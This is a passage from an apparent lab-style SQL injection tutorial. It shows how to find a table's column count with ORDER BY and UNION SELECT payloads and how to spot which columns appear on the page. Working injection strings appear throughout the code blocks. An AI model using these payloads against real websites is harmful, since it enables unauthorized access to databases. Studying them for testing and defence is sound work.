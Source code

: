 ```sql
-- Step 5: Test column 5
' order by 5-- -
-- ❌ Error: "Unknown column '5' in 'order clause'"
-- CONCLUSION: Table has exactly 4 columns
```

**Error Indicators:**
- `Unknown column 'X' in 'order clause'` → Column X doesn't exist
- Empty/no results → Column X doesn't exist
- Database error → Column X doesn't exist

#### Method 2: UNION Technique

**How UNION Works for Column Detection:**
UNION requires equal column count. Mismatch → error. Match → success.

**Step-by-Step Process:**
```sql
-- Step 1: Test 1 column
cn' UNION select 1-- -
-- ❌ Error: "The used SELECT statements have a different number of columns"

-- Step 2: Test 2 columns
cn' UNION select 1,2-- -
-- ❌ Error: "The used SELECT statements have a different number of columns"

-- Step 3: Test 3 columns  
cn' UNION select 1,2,3-- -
-- ❌ Error: "The used SELECT statements have a different number of columns"

-- Step 4: Test 4 columns
cn' UNION select 1,2,3,4-- -
-- ✅ Success: Normal output with numbers displayed
-- CONCLUSION: Table has exactly 4 columns
```

**Comparison: ORDER BY vs UNION**
- **ORDER BY**: Always succeeds until error (incremental success → failure)
- **UNION**: Always fails until success (incremental failure → success)
- **Recommendation**: ORDER BY is often faster and more reliable

#### Location of Injection (Critical Concept!)

**Problem**: Not all columns display output on the webpage!

**Example Scenario:**
```sql
-- You detect 4 columns:
cn' UNION select 1,2,3,4-- -

-- But output only shows:
Port Code | Port City | Port Volume
----------|-----------|------------
    2     |     3     |     4

-- Analysis: 
-- Column 1: Hidden (not displayed)
-- Column 2: Displayed (Port Code)
-- Column 3: Displayed (Port City) 
-- Column 4: Displayed (Port Volume)
```
